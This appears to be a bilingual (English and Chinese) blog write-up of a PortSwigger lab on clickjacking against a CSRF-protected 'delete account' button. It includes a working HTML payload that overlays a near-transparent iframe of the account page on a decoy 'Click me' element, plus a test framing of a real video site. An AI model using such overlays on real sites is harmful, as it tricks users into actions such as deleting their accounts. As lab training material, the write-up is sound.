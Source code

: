 ```yaml
---
layout: post
title: "Basic clickjacking with CSRF token protection"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_Clickjacking
author: ""
tags: ['PortSwigger_Lab', 'Clickjacking']
---
```




# Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a [CSRF token](https://portswigger.net/web-security/csrf/tokens). A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

#### Note

The victim will be using Chrome so test your exploit on that browser.




此實驗室包含登錄功能和受 [CSRF 令牌] (https://portswigger.net/web-security/csrf/tokens) 保護的刪除帳戶按鈕。 用戶將點擊誘餌網站上顯示“點擊”一詞的元素。

為了解決這個問題，請製作一些 HTML 來框住帳戶頁面並欺騙用戶刪除他們的帳戶。 刪除帳戶後，實驗室解決。

您可以使用以下憑據登錄到您自己的帳戶：`wiener:peter`

筆記

受害者將使用 Chrome，因此請在該瀏覽器上測試您的漏洞利用。


參考文章:
https://www.freebuf.com/articles/web/290140.html





為了更好的了解，你可以先登入一個需要會員的網站。

我這邊是用 eyny 這個網站

```
http://www10.eyny.com/
```


登入自己的會員後，可以開始觀看影片。
右上角顯示自己的帳號名
不登入是無法的。

寫一個test_iframe.html
```html
<style>
    iframe {
        position:relative;
        width: 200Vh;
        height: 100vh;
        opacity: 1;
        z-index: 2;
    }
 
</style>


<iframe src="http://www10.eyny.com/"></iframe>

```


然後用同樣browser 開 test_iframe.html

你會看到插入了 http://www10.eyny.com/ 這個網頁。但是右上角顯示需要登入。

別怕這可能只是 iframe 向server 抓取的網頁，而不是抓我們browser 的內容。

隨便點擊一個影片，它還是可以觀看。

這也就說明了，由於是同一個browser 發出來的請求，自然會帶上session。




進入 exploit server 
慢慢調整 Test me 到 Delete account 按鈕 上面
```

<style>  
iframe {  
	position:relative;  
	width:500px;  
	height: 700px;  
	opacity: 0.0001;  
	z-index: 2;  
}  
div {  
	position:absolute;  
	top:500px;  
	left:60px;  
	z-index: 1;  
}  
</style>

<div>Click me</div>  
<iframe src="https://0a5800150456ed9bc0916157007e0027.web-security-academy.net/my-account"></iframe>

```


這邊 opacity 官方說要0.0001 調整透明度

我不小心刪了 點擊了刪除 要等20分鐘。

最後送給 Deliver exploit to victim

由於 iframe 的強大連csrf token 都可以輕鬆繞過。



這裡說說這題在實際情況中，其實是只有一點點用處的。


首先如果它有設置一些安全選項你是無法 iframe 其它目錄的。

說明:
```
https://blog.huli.tw/2022/04/07/iframe-and-window-open/

```


也就是說，eyny 的官網可以被iframe 

如果使用者登入後，進入了 /account_setting 這個頁面 你是無法 iframe 的，也就無法操作  /account_setting 底下的任何點擊劫持。

除非有其它繞過的方法


但是還是能夠做一些些事的，也就是官網上能 iframe 的內容都可以點擊劫持，同樣也是可以繞過 csrf 的 token。








